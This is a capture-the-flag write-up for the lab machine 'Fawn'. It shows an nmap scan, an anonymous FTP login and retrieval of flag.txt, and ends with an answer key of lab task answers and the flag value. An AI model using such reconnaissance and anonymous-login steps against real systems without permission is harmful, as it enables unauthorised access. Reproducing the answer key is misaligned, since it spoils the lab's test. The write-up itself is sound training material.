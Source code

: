 # Fawn

---

## Setup

After connecting to the VPN and spawning the machine, I always store the IP address of the target machine in an environment variable in case I lose it.

```
$ export IP=10.129.188.254
$ echo $IP
10.129.188.254
```

To make sure that the target machine is up and running, we can use the command `ping` to test our connection

```
$ ping $IP
PING 10.129.188.254 (10.129.188.254) 56(84) bytes of data.
64 bytes from 10.129.188.254: icmp_seq=1 ttl=63 time=132 ms
64 bytes from 10.129.188.254: icmp_seq=2 ttl=63 time=67.0 ms
64 bytes from 10.129.188.254: icmp_seq=3 ttl=63 time=66.5 ms
64 bytes from 10.129.188.254: icmp_seq=4 ttl=63 time=67.1 ms
^C
```

---

## Scanning

First, I run a scan on the target machine to identify open ports and running services that might be vulnerable using [nmap](https://nmap.org) with the following flags:
`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-p-`: Scan all possible ports
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

```
$ nmap -sV -sC -p- -v -oN scan.nmap $IP
```

After the scan is complete, port 21 was found to be running FTP service that allows anonymous login with no password according to the scan result:

```
Nmap scan report for 10.129.188.254
Host is up (0.23s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.17.23
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix
```

---

## FTP Exploitation

FTP "[File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol)" according to wikipedia:
>A standard communication protocol used for the transfer of computer files from a server to a client on a computer network. FTP is built on a client–server model architecture using separate control and data connections between the client and the server. FTP users may authenticate themselves with a clear-text sign-in protocol, normally in the form of a username and password, but can connect anonymously if the server is configured to allow it.

We can start by trying to connect to the FTP server with anonymous username and no password by using the format `[ftp://[USER[:PASSWORD]@]HOST[:PORT]/PATH[/][;type=TYPE]]` and see what comes out.

```
$ ftp ftp://anonymous@$IP           
Connected to 10.129.188.254.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> 
```

and we're in! now we start to navigate in the directories and see if we find somethin interesting, and right off the bat after using `ls` we immediately see the file we're interested in `flag.txt` with our guest (anonymous) privs. Now we can download this file to our local machine simply by using the command `get` and then disconnect from the server by using the fancy `bye` command

```
ftp> ls
229 Entering Extended Passive Mode (|||43051|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> bye
221 Goodbye.

$ cat flag.txt
<FLAG>
```

---

## Vulnerability

In this machine, the vulerability that allowed us to exploit it is that the FTP service allowed anonymous login with a blank password, allowing us to access files that this host might not want us to access, It's better to disable this feature or protect sensitive files and requrie an authenticated login to access them.

Also it is safer to encrypt the contents of the FTP server and secure it with SSL/TLS (FTPS) or SFTP (SSH File Transfer Protocol)

---

## Tasks & Answers

<details>
    <summary><b>Task 1: </b>What does the 3-letter acronym FTP stand for?</summary>

    File Transfer Protocol
</details>

<details>
    <summary><b>Task 2: </b>Which port does the FTP service listen on usually?</summary>

    21
</details>

<details>
    <summary><b>Task 3: </b>What acronym is used for the secure version of FTP?</summary>

    SFTP
</details>


<details>
    <summary><b>Task 4: </b>What is the command we can use to send an ICMP echo request to test our connection to the target?</summary>

    ping
</details>

<details>
    <summary><b>Task 5: </b>From your scans, what version is FTP running on the target?</summary>

    3.0.3
</details>

<details>
    <summary><b>Task 6: </b>From your scans, what OS type is running on the target?</summary>

    Unix
</details>

<details>
    <summary><b>Task 7: </b>What is the command we need to run in order to display the 'ftp' client help menu?</summary>

    ftp -h
</details>

<details>
    <summary><b>Task 8: </b>What is username that is used over FTP when you want to log in without having an account?</summary>

    anonymous
</details>

<details>
    <summary><b>Task 9: </b>What is the response code we get for the FTP message 'Login successful'?</summary>

    230
</details>

<details>
    <summary><b>Task 10: </b>There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.</summary>

    ls
</details>

<details>
    <summary><b>Task 11: </b>What is the command used to download the file we found on the FTP server?</summary>

    get
</details>

<details>
    <summary><b>FLAG:</b></summary>

    035db21c881520061c53e0536e44f815
</details>